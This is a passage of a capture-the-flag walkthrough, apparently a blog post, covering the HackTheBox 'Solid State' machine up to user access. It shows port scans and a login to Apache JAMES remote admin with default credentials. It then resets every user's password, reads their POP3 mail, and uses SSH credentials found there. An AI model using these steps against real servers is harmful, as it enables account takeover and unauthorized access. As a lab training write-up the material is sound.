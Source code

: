 ```yaml
---
layout: post
title: "HackTheBox: Solid State Boot2User"
description: "hackthebox solid state walkthrough"
thumb_image: "TODO"
tags: [web, ctf, overthewire]
permalink: /posts/SolidState
---
```


## Enumeration
We'll start off with nmap scans.

My methodology on networks that we have good access to is to initially do a SYN scan of all ports and then do more thorough scanning of those we find to be open. It's good practice to keep an eye on this initial scanning, if we see it's running slowly it may be that we're tripping a firewall.

So we start off with a SYN scan (-sS), of all ports (-p-), there's no DNS in this environment so let's turn off name resolution (-n), and save output in all formats with the filename "allports" (-oA allports).

nmap -n -p- -sS -oA allports 10.10.10.51:

```
# Nmap 7.60 scan initiated Mon May 28 02:40:13 2018 as: nmap -n -p- -sS -oA allports 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.066s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip

# Nmap done at Mon May 28 02:40:55 2018 -- 1 IP address (1 host up) scanned in 41.72 seconds
```

Now let's enumerate these open ports (-p 22, 25, 80, 110, 119, 455) using service detection (-sV) and default scripts (-sC), saving all outputs with the filename "thorough" (-oA thorough) and with name resolution still off (-n):

```
# Nmap 7.60 scan initiated Mon May 28 02:42:30 2018 as: nmap -p 22,25,80,110,119,4555 -sC -sV -oA thorough -n 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.065s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (EdDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.11 [10.10.14.11]),
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2

# Nmap done at Mon May 28 02:42:57 2018 -- 1 IP address (1 host up) scanned in 26.92 seconds
```

So we have 6 ports open. From the service detection results it appears we have a mail server, running apache JAMES. Time to work out a plan of attack.

**Port 22** is showing a reasonably modern SSH service, this will be our lowest priority to look at.

**Port 25** is SMTP, we could see if [SMTP enumeration](https://pentestlab.blog/2012/11/20/smtp-user-enumeration/) is a possibility, this is a medium priority.

**Port 80** is HTTP, having a quick look in a browser it looks like a basic web app, definitely something we'll want to check out, we'll note this down as a high priority and start nikto scanning in the background.

**Port 110** is POP3, but we don't have any credentials, once again a low priority at the moment.

**Port 119** is NNTP, quick google indicates it's something to do with usenet, we'll say it's a low priority for now.

**Port 4555** is remote admin for JAMES. Sirens should be going off when see the words remote and admin. Let's make this our top priority.

## Poking at Remote Admin
Connecting to the port with netcat ```nc -nv 10.10.10.51 4555``` we're prompted for a username and password.

Trying admin/admin kicks us back to the start of the prompt where we can immediately try again. It doesn't appear that there are cooldowns on repeated attempts so we can probably script a bruteforcer if we get stuck.

Let's quickly try the obvious candidates first, root/password, admin/password etc. We don't have to try for long as root/root grants us access!

```
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

Help gives us a list of commands:

```
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

"Display existing accounts" sounds like the sort of thing we'd be interested in, and while we're at it let's change the password for each user to be their username:

```
countusers
Existing accounts 5

listusers
user: james
user: thomas
user: john
user: mindy
user: mailadmin

setpassword james james
Password for james reset

setpassword thomas thomas
Password for thomas reset

setpassword john john
Password for john reset

setpassword mindy mindy
Password for mindy reset

setpassword mailadmin
Password for mailadmin reset
```

So we now have username and passwords for a bunch of users. That POP3 port that we didn't have credentials for might make itself useful after all!

We can telnet to port 110 ```telnet 10.10.10.51 110```. POP3 is an extremely simple protocol to interact with. From the [RFC](https://www.ietf.org/rfc/rfc1939.txt) our commands are:


      Minimal POP3 Commands:

         USER name               valid in the AUTHORIZATION state
         PASS string
         QUIT
         STAT                    valid in the TRANSACTION state
         LIST [msg]
         RETR msg
         DELE msg
         NOOP
         RSET
         QUIT

Logging in with each user and checking for email, we find for Mindy:

```
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

## Shell

To get a user shell we can simply log in via SSH using the credentials given in the email. From here we can cat the user flag.

Halfway there. Stay tuned for part two where we get full root credentials.

## Notes

Guessing the default creds for the remote admin tool was pure luck, a sensible next step would have been searching for JAMES exploits. ```searchsploit apache james``` shows us a python exploit https://www.exploit-db.com/exploits/35513/. We didn't have the requisite authenticated user at that point, but reading through the exploit would have given us the default creds "root" "root".
